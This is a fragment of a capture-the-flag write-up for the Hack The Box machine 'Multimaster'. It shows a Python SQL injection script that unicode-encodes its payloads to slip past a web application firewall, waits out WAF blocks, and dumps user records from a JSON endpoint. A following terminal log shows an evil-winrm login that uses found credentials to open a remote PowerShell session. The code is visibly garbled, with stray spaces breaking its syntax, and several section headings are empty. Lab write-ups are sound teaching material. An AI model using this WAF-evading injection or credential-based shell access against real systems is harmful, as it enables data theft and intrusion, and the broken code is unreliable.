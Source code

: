 ```python
            encpyload = pattern.sub (r "\\ u00 \ 1", payload.encode ("hex"))
            r = requests.post (URL, data = '{"name": "' + encpyload + '"}', headers = {"Content-Type": "application / json; charset = utf-8"})
            if "403 - Forbidden: Access is denied." in r.text:
                print colored ("[-] Sleeping until WAF cooldown", "red")
                time.sleep (10)
                continue
            if "\\" in r.text:
                print colored ("[i] Counter:" + format ((x + i)), "blue")
                print colored ("[+] RID:" + format (RID), "green")
                print colored ("[+] Pyload:" + payload, "green")
                #print colored ("[+] Encoded payload:" + format (encpayload), "green")
                print colored ("\ n" + r.text, "yellow")

            jsona = json.loads (r.text)
            if jsona:
                try:
                    for element in jsona:
                        del element [u "position"]
                        del element [u "id"]
                        del element [u "email"]
                        del element [u "name"]
                except TypeError:
                    del jsona [u "position"]
                    del jsona [u "id"]
                    del jsona [u "email"]
                    del jsona [u "name"]
                data = json.dumps (jsona, sort_keys = True, indent = 4)
                if "\\" in r.text:
                    print colored (data + "\ n", "yellow")
            i + = 1
```

## Initial Foothold

## Road to User

### Further enumeration

### Finding user creds

```text
zweilos@kalimaa:~/htb/multimaster$ evil-winrm -u tushikikatomo -i 10.10.10.179 -p finance1

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\alcibiades\Documents>
```
